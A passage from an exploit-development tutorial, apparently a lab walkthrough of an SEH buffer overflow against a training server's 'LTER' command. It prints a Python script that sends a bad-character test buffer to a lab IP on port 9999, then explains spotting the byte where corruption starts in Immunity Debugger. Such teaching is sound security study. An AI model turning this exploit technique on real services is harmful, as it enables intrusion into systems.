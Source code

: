 Awesome, we've managed to overwrite both of the SEH components, we can probably control the execution now. But, before we get carried away, we have two outstanding tasks:
1. Determine bad chars,
2. Calculate the offset to the SEH components (remember, they are separated by 4 bytes). 

## Determining Bad Characters

Let's cram the badchars variable into our `A` buffer since, judging by the stack output we get from Immunity, that space is huge. Our exploit code at this point will look like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = badchars
buffer += "A" * (5012 - len(badchars))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

Once we send this and the application crashes, we have to select one of the overwritten registers, I used EBP, and then right-click > follow in dump. We see that every thing was going really well until right after `7F` where we were expecting to see `80` but instead see a `01`. 
